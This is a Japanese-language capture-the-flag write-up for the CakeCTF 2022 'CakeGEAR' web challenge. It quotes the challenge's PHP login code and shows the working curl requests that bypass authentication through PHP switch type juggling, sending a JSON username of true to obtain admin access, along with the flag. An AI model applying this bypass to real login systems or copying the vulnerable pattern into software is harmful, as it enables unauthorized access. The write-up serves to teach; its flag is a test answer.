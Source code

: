 # CakeGEAR:web:98pts
Can you crack the [login portal](http://web1.2022.cakectf.com:8005/) of CakeGEAR router?  

[cakegear_b8892957907a9f25a17529ad4dcc73f1.tar.gz](cakegear_b8892957907a9f25a17529ad4dcc73f1.tar.gz)  

# Solution
リンクとソースが渡される。  
アクセスすると、ログインページのようだ。  
login - CAKEGEAR  
![site.png](site/site.png)  
適当に入力するが何も起こらないので、配布されたソースを見る。  
admin.phpは特に不審な点はなく、adminフラグが立っていればフラグが得られるようだ。  
```php
~~~
if (empty($_SESSION['login']) || $_SESSION['login'] !== true) {
    header("Location: /index.php");
    exit;
}

if ($_SESSION['admin'] === true) {
    $mode = 'admin';
    $flag = file_get_contents("/flag.txt");
} else {
    $mode = 'guest';
    $flag = "***** Access Denied *****";
}
~~~
```
index.phpを見ると以下のようであった。  
```php
~~~
define('ADMIN_PASSWORD', 'f365691b6e7d8bc4e043ff1b75dc660708c1040e');

/* Router login API */
$req = @json_decode(file_get_contents("php://input"));
if (isset($req->username) && isset($req->password)) {
    if ($req->username === 'godmode'
        && !in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])) {
        /* Debug mode is not allowed from outside the router */
        $req->username = 'nobody';
    }

    switch ($req->username) {
        case 'godmode':
            /* No password is required in god mode */
            $_SESSION['login'] = true;
            $_SESSION['admin'] = true;
            break;

        case 'admin':
            /* Secret password is required in admin mode */
            if (sha1($req->password) === ADMIN_PASSWORD) {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = true;
            }
            break;

        case 'guest':
            /* Guest mode (low privilege) */
            if ($req->password === 'guest') {
                $_SESSION['login'] = true;
                $_SESSION['admin'] = false;
            }
            break;
    }

    /* Return response */
    if (isset($_SESSION['login']) && $_SESSION['login'] === true) {
        echo json_encode(array('status'=>'success'));
        exit;
    } else {
        echo json_encode(array('status'=>'error'));
        exit;
    }
}
~~~
```
作問者以外の地球人には`admin`のパスワードを当てるのは無理であり、`godmode`なるものがあるので、おそらくこちらのユーザになることがゴールだと考える。  
ただし、ローカル環境以外では`nobody`になってしまう。  
一見するとSSRFのように見えるが、`$_SERVER['REMOTE_ADDR']`は変更できそうにない。  
つまり、`!in_array($_SERVER['REMOTE_ADDR'], ['127.0.0.1', '::1'])`はFalseにできないと考えられる。  
すると残るのは、`$req->username === 'godmode'`であり、厳密な比較なのでFalseにしやすい。  
ここで問題となるのはswitch文の`case 'godmode':`であり、ここに当てはまらない場合`godmode`になれない。  
この問題を解決するためPHPのswitchを調査すると、厳密でない比較が行われていることが[わかる](https://www.php.net/manual/en/control-structures.switch.php)。  
厳密でない比較は以下のような挙動が知られている。  
```bash
$ php -a
~~~
php > echo True == 'godmode';
1
```
つまりユーザ名を`true`にしてやればよい。  
幸いなことにjsonから取得しているため簡単である。  
以下のように行う。  
```bash
$ curl -X POST http://web1.2022.cakectf.com:8005/ --data '{"username":true,"password":""}' -v
~~~
< Set-Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13; path=/
~~~
{"status":"success"}
$ curl -X POST http://web1.2022.cakectf.com:8005/admin.php -H "Cookie: PHPSESSID=6cf678953e16999644a963f88b92cc13"
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>control panel - CAKEGEAR</title>
        <style>table, td { margin: auto; border: 1px solid #000; }</style>
    </head>
    <body style="text-align: center;">
        <h1>Router Control Panel</h1>
        <table><tbody>
            <tr><td><b>Status</b></td><td>UP</td></tr>
            <tr><td><b>Router IP</b></td><td>192.168.1.1</td></tr>
            <tr><td><b>Your IP</b></td><td>192.168.1.7</td></tr>
            <tr><td><b>Access Mode</b></td><td>admin</td></tr>
            <tr><td><b>FLAG</b></td><td>CakeCTF{y0u_mu5t_c4st_2_STRING_b3f0r3_us1ng_sw1tch_1n_PHP}
</td></tr>
        </tbody></table>
    </body>
</html>
```
flagが得られた。  

## CakeCTF{y0u_mu5t_c4st_2_STRING_b3f0r3_us1ng_sw1tch_1n_PHP}